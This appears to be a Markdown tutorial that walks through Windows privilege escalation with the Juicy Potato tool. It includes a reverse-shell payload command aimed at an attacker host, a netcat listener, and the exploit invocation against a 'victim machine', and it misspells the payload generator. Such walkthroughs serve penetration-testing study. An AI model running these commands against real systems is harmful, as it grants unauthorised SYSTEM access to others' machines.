 
# 🥔 Juicy Potato — Privilege Escalation via SeImpersonatePrivilege

### 🔍 What is Juicy Potato?

**Juicy Potato** is a Windows local privilege escalation tool that abuses the **SeImpersonatePrivilege** to gain **SYSTEM-level access** from a low-privileged user account.

### ✅ Requirements

- You already have **a shell** (or Meterpreter session) on the **target machine**
- The user must have the `SeImpersonatePrivilege` **enabled**

### 🧪 Step-by-Step Guide

### 1️⃣ Check User Privileges

On the target machine, run:

```bash
whoami /priv
```

Look for this line:

```
SeImpersonatePrivilege      Enabled
```

> ✅ If it's enabled, you can continue with the Juicy Potato attack!
> 

### 2️⃣ Download Juicy Potato

Download the executable from:

👉 https://github.com/ohpe/juicy-potato

Rename it (for simplicity):

```bash
jp.exe
```

Copy it to the **victim machine**.

### 3️⃣ Create a Malicious Payload

On your **attacker machine** (Kali), generate a reverse shell in `.bat` format:

```bash
sfvenom -p cmd/windows/reverse_powershell LHOST=<Your_IP> LPORT=<Your_Port> -f raw > myshell.bat
```

Replace `<Your_IP>` and `<Your_Port>` with your Kali IP and chosen port.

Upload `myshell.bat` to the **victim machine**.

### 4️⃣ Start Netcat Listener

On your Kali machine:

```bash
nc -nlvp <Your_Port>
```

### 5️⃣ Run Juicy Potato Exploit

On the victim machine:

```bash
jp.exe -t * -p myshell.bat -l 4444
```

- `t *` = Try all available COM types
- `p myshell.bat` = The payload you want to run
- `l 4444` = Port used by the fake COM server (can be any unused port)

### 🎉 Result

You should now get a **reverse shell as SYSTEM** on your Netcat listener!
